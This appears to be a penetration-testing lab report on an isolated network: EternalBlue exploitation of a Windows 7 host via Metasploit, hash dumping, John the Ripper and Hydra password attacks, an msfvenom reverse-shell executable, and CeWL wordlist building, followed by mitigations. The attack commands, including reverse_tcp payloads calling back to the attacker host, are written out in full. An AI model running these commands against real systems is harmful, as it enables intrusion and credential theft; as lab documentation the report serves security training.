# Exploitation Report

**Target:** 192.168.19.135 (Windows 7 Home Basic, Build 7601 SP1, x64)

**Attacker Host:** Kali Linux, 192.168.19.132

**Analyst:** Ritesh Gupta

**Date:** 10 June 2026

---

## 1. Vulnerability Verification

Before exploiting anything, confirmed the target was actually vulnerable rather than assuming it.

```
nmap -p445 192.168.19.135
sudo nmap -Pn -p445 --script smb-vuln-ms17-010 192.168.19.135
```

**Findings:**
- Port 445 (microsoft-ds) open
- Confirmed **VULNERABLE** to MS17-010 (EternalBlue) — CVE-2017-0143
- Risk factor: HIGH — remote code execution in SMBv1

This matters because exploitation should never be attempted blind — verifying the vulnerability first is what separates a controlled test from a random shot in the dark.

**Screenshot:**



---

## 2. EternalBlue Exploitation via Metasploit

```
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.19.135
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.19.132
set LPORT 4444
run
```

**Findings:**
- Auxiliary scanner confirmed target vulnerable again at exploit time (defense in depth on the attacker's side — re-verify before firing)
- Exploit correctly identified target OS from SMB reply: Windows 7 Home Basic SP1 x64
- EternalBlue overwrite completed successfully; Meterpreter session opened at `192.168.19.135:49164`
- **Session 1 established** — full remote code execution achieved

**Screenshot:**



---

## 3. Post-Exploitation Reconnaissance

Once inside, gathered situational awareness before doing anything else — this is what separates a professional engagement from smash-and-grab.

```
meterpreter> getuid
meterpreter> sysinfo
meterpreter> ipconfig
meterpreter> ps
```

**Findings:**
| Check | Result |
|---|---|
| User context | `NT AUTHORITY\SYSTEM` — highest possible privilege, no escalation needed |
| Computer name | WIN-AM6JGDG87KF |
| OS | Windows 7 (6.1 Build 7601, SP1), x64 |
| Domain | WORKGROUP (standalone, not domain-joined) |
| Logged on users | 2 |
| Network interfaces | Dual-homed: 192.168.19.135 and 192.168.60.131 — **this host bridges two network segments** |
| Running processes | Standard Windows 7 services (lsass.exe, services.exe, spoolsv.exe, etc.) — no obvious third-party AV/EDR process observed |

**Key finding:** the dual network interface means this box isn't just a single-segment target — landing SYSTEM here gives a foothold into a second subnet (192.168.60.0/24), which is a realistic lateral movement pivot point.

**Screenshots:**







---

## 4. Credential Dumping

```
meterpreter> hashdump
meterpreter> shell
```

**Findings:**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Windows:1000:aad3b435b51404eeaad3b435b51404ee:c4a558ececcab5c52bb490af573b8bb6:::
```

- Administrator and Guest both show the well-known **blank-password NTLM hash** (`31d6cfe0d16ae931b73c59d7e0c089c0`) — meaning both accounts have no password set at all
- The `Windows` account has an actual hash, worth cracking
- Dropped into a full `cmd.exe` shell (Windows 6.1.7601) confirming interactive command execution post-exploit

**Screenshot:**



---

## 5. Password Hash Cracking (John the Ripper)

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show --format=NT ntlm_hash.txt
```

**Findings:**
- **1 password hash cracked, 0 left**
- Confirms the Administrator hash decodes to an **empty/blank password**
- This is a critical finding on its own: a SYSTEM-level account with no password is a full compromise waiting to happen, independent of EternalBlue

**Screenshot:**



---

## 6. Custom Payload Generation (MSFVenom)

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.19.132 LPORT=4444 -f exe > payload.exe
file payload.exe
ls -la payload.exe
```

**Findings:**
- Payload size: 509 bytes; final `.exe` size: 7680 bytes
- No encoder applied — this is a **raw, unobfuscated payload**, meaning it would very likely be flagged by any modern antivirus/EDR on sight
- Real-world evasion would require an encoder, packer, or process injection technique — deliberately not done here since the goal was demonstrating payload generation, not AV evasion

**Screenshot:**



---

## 7. Password Attacks — Hydra

### RDP Brute Force
```
hydra -l student -P paslist.txt rdp://192.168.19.129
```
**Result:** Hydra reported the `student` account might be valid but **not active for Remote Desktop**, and the connection failed to establish — **0 valid passwords found**. Notable: this is a realistic negative result, not a fabricated success — it demonstrates that RDP wasn't actually reachable/enabled on that host at attack time.

**Screenshot:**



### SSH Brute Force
```
hydra -l kali -P paslist.txt 192.168.19.132 ssh
```
**Result:** **0 valid password found** — SSH brute force against the Kali host itself did not succeed with the test wordlist.

**Screenshot:**



**Takeaway on both:** a failed brute force is still worth documenting — it shows the attack was attempted correctly and the target/wordlist combination simply didn't yield a match, which is realistic and far more common in practice than every brute force succeeding.

---

## 8. Linux Shadow Hash Cracking

```
sudo useradd testcrack
sudo passwd testcrack        # set to "password123"
sudo cat /etc/shadow | grep testcrack > shadow_hash.txt
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow_hash.txt
```

**Findings:**
- Cracked in ~1 second (`0:00:01:17` wall time reported, effectively instant for a rockyou-list match)
- Password recovered: **`password123`**
- Demonstrates how trivially a weak, wordlist-present password falls to an offline attack once the hash is obtained

**Screenshot:**



---

## 9. Custom Wordlist Generation (CeWL)

```
cewl http://192.168.19.132/DVWA -w dvwa_words.txt -d 3 -m 5
wc -l dvwa_words.txt
head -20 dvwa_words.txt
```

**Findings:**
- Generated a 5-word list scraped from the DVWA login page: `Vulnerable`, `Application`, `Login`, `Username`, `Password`
- Small sample here since DVWA's login page has minimal text — a real target website (e.g. an intranet portal with staff names, project codenames, department terms) would produce a far more useful, targeted wordlist
- **Attacker value:** custom wordlists built from a target's own content (job titles, product names, internal terminology) outperform generic lists like rockyou.txt when guessing passwords that reflect that organization's culture

**Screenshot:**



---

## Summary — Exploitation Findings

| Finding | Severity | Detail |
|---|---|---|
| MS17-010 / EternalBlue | **Critical** | Full SYSTEM-level RCE achieved remotely, unauthenticated |
| Blank Administrator password | **Critical** | Administrator and Guest accounts have no password set |
| Dual-homed target | **High** | Compromised host bridges two subnets — viable pivot point |
| Weak Linux user password | **Medium** | `password123` cracked in ~1 second against rockyou.txt |
| RDP/SSH brute force | **Low** (in this instance) | Attempts failed, but weak service exposure was tested correctly |

**Recommended mitigations:**
- Apply KB4012212 (MS17-010 patch) immediately; disable SMBv1 entirely
- Set a strong password on every local account, especially built-in Administrator — a blank password is a full bypass of every other control on this box
- Segment networks so a single dual-homed host cannot bridge two security zones
- Enforce a minimum 12-character password policy with lockout after failed attempts to blunt both online (Hydra) and offline (John) attacks
-
